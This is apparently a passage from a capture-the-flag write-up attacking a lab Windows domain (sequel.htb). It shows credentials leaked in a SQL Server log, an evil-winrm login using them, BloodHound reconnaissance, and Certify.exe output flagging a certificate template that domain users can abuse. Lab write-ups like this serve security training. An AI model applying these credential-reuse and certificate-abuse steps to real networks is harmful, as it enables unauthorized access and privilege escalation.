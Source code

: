 In the C drive there is a folder SQLServer in which a log file is present which leaks credentials
```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]

```

We can proceed to login as him using evil-winrm

```bash
$ evil-winrm -i sequel.htb -u 'ryan.cooper' -p 'NuclearMosquito3' 
```

Running a bloodhound ingestor
!["Running remote bloddhound ingestor"](./imgs/assets-escape/bh-ingestor.png)


Opening it in bloodhound we find that Ryan.Cooper is an unrolled member of CERTIFICATE SERVICE DCOM ACCESS

I'll upload Certify.exe to the target machine and see if it finds anything!
```bash
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
```
